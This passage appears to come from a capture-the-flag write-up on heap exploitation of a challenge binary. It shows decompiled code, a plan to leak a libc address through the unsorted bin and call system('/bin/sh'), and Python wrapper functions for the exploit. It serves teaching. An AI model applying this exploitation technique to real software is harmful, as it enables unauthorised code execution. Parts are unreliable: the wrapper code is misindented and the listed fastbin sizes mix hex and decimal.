 ```c:show
      error("Page is empty!\n");
    }
    else {
      printf("\nPage content: %s\n",*(undefined8 *)(param_1 + (ulong)bVar2 * 8));
    }
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This function can be used to get a leak because this function simply dereferences an array index; which is a chunk.

### Exploitation Path

The exploitation path is pretty simple, we can do the following:

- Fill tcache by allocating memory
- Allocate a chunk of the same size and then free it so it goes to the unsorted bin
- The chunk in the unsorted bin will contain a libc's arena address, so we have a leak
- Write system to chunk 0, `/bin/sh` to chunk 1
- Invoke `42` and win.

To make things easier, I wrote the following function wrappers:

```py:exploit.py
def alloc(sz, page, data):
    io.sendline(b"1")
    io.sendlineafter(b"request?", encode(sz))
    io.sendlineafter(b"Page?", encode(page))
    io.sendafter(b"victim:", encode(data))
    io.recvlines(5) # clean the stdout

    def free(page):
    io.sendline(b"2")
    io.sendlineafter(b"Page?", encode(page))
    io.recvlines(5)

def show(page):
    io.sendline(b"3")
    io.sendlineafter(b"Page?", encode(page))
    io.recvuntil(b"Page content: ")
    return io.recvline()
```

Now, one question that I had in mind, `what size chunk should I allocate?`, well. We know that fastbins can hold `0x16, 24, 32, 40, 48, 56, 64, 72, 80, and 88 bytes` of chunk, also, if we recall the `add` function, we can create a chunk of max size `127`, so; what if we create a `127` sized chunk. So, the basic exploit for this will be as follows:
